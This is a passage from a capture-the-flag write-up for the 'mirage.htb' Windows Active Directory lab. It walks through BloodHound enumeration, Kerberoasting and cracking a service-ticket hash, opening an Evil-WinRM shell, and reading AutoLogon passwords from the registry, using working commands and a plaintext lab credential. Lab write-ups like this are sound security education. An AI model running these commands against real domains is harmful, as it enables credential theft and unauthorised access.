 ### BloodHound Analysis
```bash
# Collect comprehensive BloodHound data
bloodhound-python -u david.jjackson -p 'pN8kQmn6b86!1234@' -c All -d mirage.htb -ns 10.10.11.78 --zip
```

**Key BloodHound Findings:**

1. **nathan.aadam**: Has SPNs assigned (Kerberoastable), member of IT_ADMIN group
2. **mark.bbond**: Member of IT_SUPPORT, can force password changes on javier.mmarshall, allowed to act on DC01.mirage.htb via RBCD
3. **javier.mmarshall**: Has ReadGMSAPassword privileges on MIRAGE-SERVICE (currently disabled account)
4. **DC01 machine account**: Can DCSync the domain

## Kerberoasting Attack

### Extracting Service Tickets
```bash
# Perform Kerberoasting attack
GetUserSPNs.py 'mirage.htb/david.jjackson' -dc-host dc01.mirage.htb -k -request

# Crack the TGS hash
john --wordlist=/usr/share/wordlists/rockyou.txt nathan.hash
```

This successfully cracked nathan.aadam's password, enabling further access to the domain.

### Initial Shell Access
```bash
# Generate TGT for nathan.aadam
nxc smb dc01.mirage.htb -u nathan.aadam -p 'CRACKED_PASSWORD' -k --generate-tgt nathan.aadam
export KRB5CCNAME=nathan.aadam.ccache

# Establish Evil-WinRM session
evil-winrm -i dc01.mirage.htb -u nathan.aadam -r mirage.htb
```

### User Flag
Located at `C:\Users\nathan.aadam\Desktop\user.txt`

## Privilege Escalation Phase 1: Account Reactivation

### Discovering AutoLogon Credentials
Local enumeration with WinPeas revealed AutoLogon credentials stored in the registry:

```powershell
# Via winPEASx64.exe or manual registry query
Get-ItemProperty 'HKLM:\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon' | Select-Object DefaultUserName, DefaultDomainName, DefaultPassword, AutoAdminLogon
```
